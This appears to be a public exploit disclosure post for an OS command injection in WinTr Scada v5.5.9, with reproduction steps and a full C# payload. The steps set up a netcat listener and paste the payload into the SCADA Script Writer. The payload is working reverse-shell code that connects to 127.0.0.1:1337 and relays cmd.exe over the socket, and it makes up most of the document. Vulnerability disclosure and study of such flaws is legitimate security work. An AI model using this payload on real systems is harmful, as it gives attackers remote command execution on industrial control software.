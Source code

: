 ```yaml
---
layout: post
title: WinTr Scada v5.5.9 - OS Command Injection
date: 2024-04-17
category: exploit
---
```


# Exploit Title: WinTr Scada v5.5.9 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.04.2024
# Vendor Homepage: http://www.wintr.com.tr
# Software Link: https://www.fultek.com.tr/Download/WinTrScadaSQL2014x32.zip
# Tested Version: v5.5.9 (latest)
# Tested on: Windows 10 32bit

### Steps to Reproduce

1. Set up a listener on your machine with `nc.exe -vv -l -p 1337`.
2. Open WinTr Scada and click on **New Project**.
3. Click **Yes** to save the project.
4. Close the window that opens after saving.
5. Go to **Script Writer**.
6. Select **CSharp** from the top menu.
7. Paste the payload below and click on **Script Test and Run**.
8. Your reverse shell should now connect to the listener.

### Payload

The following C# payload initiates a reverse shell connection to a specified IP and port (in this example, `127.0.0.1:1337`).

```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Net.Sockets;
using System.Text;

namespace WinTr
{
    class MainClass
    {
        StreamWriter streamWriter;

        public void Load()
        {
            try
            {
                TcpClient client = new TcpClient("127.0.0.1", 1337);
                Stream stream = client.GetStream();
                StreamReader rdr = new StreamReader(stream);
                streamWriter = new StreamWriter(stream);

                StringBuilder strInput = new StringBuilder();

                Process p = new Process();
                p.StartInfo.FileName = "cmd.exe";
                p.StartInfo.CreateNoWindow = true;
                p.StartInfo.UseShellExecute = false;
                p.StartInfo.RedirectStandardOutput = true;
                p.StartInfo.RedirectStandardInput = true;
                p.StartInfo.RedirectStandardError = true;

                p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                p.Start();
                p.BeginOutputReadLine();

                while (true)
                {
                    strInput.Append(rdr.ReadLine());
                    p.StandardInput.WriteLine(strInput.ToString());
                    strInput.Remove(0, strInput.Length);
                }

                rdr.Close();
                stream.Close();
                client.Close();
            }
            catch (Exception ex)
            {
                Console.WriteLine("An error occurred: " + ex.Message);
            }
        }

        private void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    streamWriter.WriteLine(outLine.Data);
                    streamWriter.Flush();
                }
                catch (Exception err)
                {
                    // Handle or log the error
                }
            }
        }
    }
}
